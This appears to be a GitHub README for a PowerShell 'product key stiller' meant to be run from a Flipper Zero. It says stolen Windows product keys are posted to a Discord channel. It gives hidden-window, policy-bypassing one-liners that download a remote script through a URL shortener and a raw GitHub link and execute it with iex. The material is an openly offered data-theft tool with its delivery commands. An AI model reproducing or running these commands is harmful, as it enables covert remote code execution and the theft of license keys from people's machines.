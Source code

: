 # WinProdKey.ps1
Hosting for WinProdKey.ps1 (NOW NOT ONLY FOR IT) (Script for Windows Product Stiller for Flipper Zero script modified by me)

PRODUCT KEY WILL APPEAR PRODUCT KEY WILL APPEAR [HERE](https://discord.gg/uYYD6Ysm8P) (In #product-key-stiller)

Win + R command: powershell -w h -ep bypass "irm https://bit.ly/49SFZ7f | iex" or:

powershell -w h -ep bypass "irm https://raw.githubusercontent.com/nazarhktwitch/WinProdKey.ps1/refs/heads/main/WinProdKey.ps1 | iex"

Or just use payload (For Flipper Zero)
